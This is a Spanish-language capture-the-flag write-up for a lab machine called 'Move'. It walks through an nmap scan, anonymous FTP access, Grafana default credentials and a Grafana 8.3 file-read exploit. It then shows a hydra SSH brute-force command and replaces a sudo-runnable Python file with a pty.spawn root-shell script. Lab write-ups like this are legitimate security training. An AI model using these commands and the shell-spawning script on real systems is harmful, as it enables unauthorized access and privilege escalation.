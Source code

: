```yaml
---
Maquina: Move
SO: Linux
Explotación: LFI
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - ssh
  - web
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sVC -Pn 172.17.0.2
```

![[Pasted image 20241127144250.png]]

Primero que nada vemos que tiene un FTP abierto así que no nos cuesta nada preguntar si tiene el usuario anónimo activado ->

![[Pasted image 20241127145908.png]]

Parece que hay algo,y si nos adentramos en el directorio podemos observar que hay una base de datos,

![[Pasted image 20241127150553.png]]

Por otro lado si vemos el puerto 3000 está abierto y contiene un servicio de Grafana, con su panel de Login. Si probamos las credenciales por defecto admin/admin podemos llegar a acceder.

![[Pasted image 20241127150644.png]]

Si nos fijamos estamos en la versión 8.3

![[Pasted image 20241127152442.png]]

Y haciendo una búsqueda rápida podemos ver como hay algún exploit para esta versión.

![[Pasted image 20241127152520.png]]

Para poder utilizar el script basta con copiarlo a nuestra dirección y configurarlo, yo al final he utlizado uno en python.

![[Pasted image 20241127153513.png]]

Como podemos observar hay un usuario freddy que tiene acceso al sistema... También podemos observar una especie de contraseña...

![[Pasted image 20241127154948.png]]

```bash
hydra -l freddy -P ~/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -s 22
```

![[Pasted image 20241127155106.png]]

Parece que estamos dentro... Vamos a ver que permisos tenemos.

![[Pasted image 20241127155446.png]]

Parece que tenemos permisos de root para ejecutar con python el archivo /opt/maintenance.py

Si investigamos un poco más podemos ver su contenido y como somos propietarios del archivo con lo que lo podemos modificar.

![[Pasted image 20241127155534.png]]

Lo vamos a cambiar por lo siguiente...

```python
import os
import pty

def spawn_shell():
    # Spawnea una shell interactiva
    try:
        pty.spawn("/bin/bash")  # Cambia a "/bin/sh" si prefieres una shell diferente
    except Exception as e:
        print(f"Error al intentar spawnear la shell: {e}")

if __name__ == "__main__":
    spawn_shell()

```

Y listo, ya lo podemos ejecutar como sudo.

![[Pasted image 20241127155630.png]]

Ya tenemos el control de la máquina ;)